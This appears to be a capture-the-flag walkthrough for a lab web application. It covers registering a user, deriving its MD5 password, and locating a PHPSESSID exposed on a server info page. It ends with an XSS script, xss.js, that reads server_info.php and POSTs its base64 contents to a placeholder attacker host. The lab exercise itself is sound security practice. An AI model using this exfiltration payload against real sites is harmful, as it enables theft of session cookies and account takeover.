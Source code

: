<h3>Register</h3>

<p>
 
- register username : rosana and  date of birth :  11/11/1111<br>
- click SUBMIT QUERY<br>
- click Login<br>
- use MD5 Hash Generator , CyberChef, or simply md5sum against rosana1111</p>

<h3>password</h3>

```bash
:~/Robots# echo -n rosana1111 | md5sum
27f06b8cc2eb40a0b23e6fb1755e58f9  - 
```

<h3>Burp Suite and FoxyProxy</h3>
<p>- enable both</p>

<h3>Authenticate</h3>
<h4>PHPSRSSID</h4>

<p>

- authenticate with rosana password discovered in the previous step and click SUBMIT QUERY<br>
- identify Server info link, Admin last login: ... and User 3<br>
- right-click the web page and select Inspect<br>
- identify a PHPSESSID value in Storage</p>

<img width="800" height="77" alt="image" src="https://github.com/user-attachments/assets/192e60eb-0152-4a86-92bb-0d79c830444b" />

<p>

- click Server info and navigate to Apache Environment session<br>
- identify HTTP_COOKIE with the previous PHPSESSID value
</p>

<h3>Register a new user LoL</h3>

<h4>JS script</h4>

```bash
:~/Robots/exfil# cat xss.js
async function exfil() {
    const response = await fetch('/harm/to/self/server_info.php');
    const text = await response.text();

    await fetch('http://AttackIP:AttackPort/exfil', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: `data=${btoa(text)}`
    });
}

exfil();
```

